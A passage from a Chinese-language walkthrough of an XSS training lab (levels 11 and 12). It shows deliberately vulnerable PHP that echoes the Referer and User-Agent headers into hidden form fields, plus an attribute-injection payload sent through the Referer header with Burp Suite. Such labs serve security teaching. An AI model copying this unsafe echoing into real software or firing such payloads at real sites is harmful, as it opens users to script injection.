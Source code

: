 ```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```



测试过滤了什么

`<script " 'Oonn>`

```html
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
<input name="t_ref"  value="" type="hidden">
```

有4个隐藏标签

使用上一关的payload测试一下第四个参数

`?t_ref=click"type="button" onclick="alert(/xss/)`

依旧没有结果

burpsuip抓包查看参数怎么来的

猜测t_ref是referer地址来源

![image-20221120190357176](https://img.gyxnb.top/img/image-20221120190357176.png)

`click"type="button" onclick="alert(/xss/)`

## level12

http://192.168.31.193:8080/level12.php?keyword=good%20job!

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_USER_AGENT'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ua"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```
